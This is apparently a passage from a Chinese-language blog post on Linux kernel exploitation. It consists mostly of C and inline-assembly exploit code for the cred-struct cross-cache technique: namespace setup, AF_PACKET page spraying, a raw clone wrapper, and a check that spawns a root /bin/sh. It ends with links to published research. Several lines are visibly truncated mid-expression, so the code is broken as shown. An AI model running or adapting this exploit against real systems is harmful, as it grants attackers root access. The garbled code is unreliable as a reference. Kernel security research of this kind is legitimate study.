#define CLONE_FLAGS CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND

typedef struct

{

    int64_t idx;

    uint64_t size;

    char *buf;

}user_req_t;

struct tpacket_req{

    unsigned int tp_block_size;

    unsigned int tp_block_nr;

    unsigned int tp_frame_size;

    unsigned int tp_frame_nr;

};

enum tpacket_versions {

    TPACKET_V1,

    TPACKET_V2,

    TPACKET_V3,

};

#define PACKET_VERSION 10

#define PACKET_TX_RING 13

#define FORK_SPRAY 320

#define CHUNK_SIZE 512

#define ISO_SLAB_LIMIT 8

#define CRED_JAR_INITIAL_SPRAY 32

#define INITIAL_PAGE_SPRAY 1000

#define FINAL_PAGE_SPRAY 30

typedef struct

{

    bool in_use;

    int idx[ISO_SLAB_LIMIT];

}full_page;

enum spray_cmd {

    ALLOC_PAGE,

    FREE_PAGE,

    EXIT_SPRAY,

};

typedef struct

{

    enum spray_cmd cmd;

    int32_t idx;

}ipc_req_t;

/* Finally spray vulnurbility pages */

full_page isolation_pages[FINAL_PAGE_SPRAY] = {0};

int rootfd[2];

int sprayfd_child[2];

int sprayfd_parent[2];

int socketfds[INITIAL_PAGE_SPRAY];

int64_t ioctl(int fd, unsigned long request, unsigned long param){

    long result = syscall(16, fd, request, param);

    if(result ");

    getchar();

    return;

}

void unshare_setup(uid_t uid, gid_t gid)

{

    int temp;

    char edit[0x100];

    unshare(CLONE_NEWNS|CLONE_NEWUSER|CLONE_NEWNET);     //Create new namespace and get in

    temp = open("/proc/self/setgroups", O_WRONLY);

    write(temp, "deny", strlen("deny"));

    close(temp);

    temp = open("/proc/self/uid_map", O_WRONLY);

    snprintf(edit, sizeof(edit), "0 %d 1", uid);

    write(temp, edit, strlen(edit));

    close(temp);

    temp = open("/proc/self/gid_map", O_WRONLY);

    snprintf(edit, sizeof(edit), "0 %d 1", gid);

    write(temp, edit, strlen(edit));

    close(temp);

    return;

}

/* *

 * __clone - clone syscall in /kernel/fork.c

 * @flags: clone flags

 * @dest: the ptr of the user_stack

 * */

__attribute__((naked)) pid_t __clone(uint64_t flags, void *dest)

{

    asm("mov r15, rsi;"

        "xor rsi, rsi;"

        "xor rdx, rdx;"

        "xor r10, r10;"

        "xor r9, r9;"

        "mov rax, 56;"

        "syscall;"

        "cmp rax, 0;"

        "jl bad_end;"

        "jg good_end;"

        "jmp r15;"

        "bad_end:"

        "neg rax;"

        "ret;"

        "good_end:"

        "ret;");

}

struct timespec timer = {.tv_sec = 1000000000, .tv_nsec = 0};

char throwaway;

char root[] = "root\n";

char binsh[] = "/bin/sh\x00";

char *args[] = {"/bin/sh", NULL};

__attribute__((naked)) void check_and_wait()

{

    asm(

        "lea rax, [rootfd];"

        "mov edi, dword ptr [rax];"

        "lea rsi, [throwaway];"

        "mov rdx, 1;"

        "xor rax, rax;"

        "syscall;"              //read(rootfd, throwaway, 1)

        "mov rax, 102;"         

        "syscall;"              //getuid()

        "cmp rax, 0;"           // not root, goto finish

        "jne finish;"

        "mov rdi, 1;"

        "lea rsi, [root];"

        "mov rdx, 5;"

        "mov rax, 1;"

        "syscall;"              //write(1, root, 5)

        "lea rdi, [binsh];"

        "lea rsi, [args];"

        "xor rdx, rdx;"

        "mov rax, 59;"

        "syscall;"              //execve("/bin/sh", args, 0)

        "finish:"

        "lea rdi, [timer];"

        "xor rsi, rsi;"

        "mov rax, 35;"

        "syscall;"              //nanosleep()

        "ret;");

}

int just_wait(){

    sleep(1000000000);

}

/* *

 * alloc_pages_via_sock - page allocation primitive

 * @size: once order-* allocation in page level

 * @n: the times you want to allocate

 * Return: the new socket fd

 * */

int alloc_pages_via_sock(uint32_t size, uint32_t n){

    struct tpacket_req req;

    int32_t socketfd, version;

    /* Create the AF_PACKET socket */

    socketfd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);

    if(socketfd 
```

## 2> 参考链接

- [https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)
- [https://etenal.me/archives/1825](https://etenal.me/archives/1825)
- [https://grsecurity.net/how_autoslab_changes_the_memory_unsafety_game](https://grsecurity.net/how_autoslab_changes_the_memory_unsafety_game)
- [https://etenal.me/archives/1825](https://etenal.me/archives/1825)
- [https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)
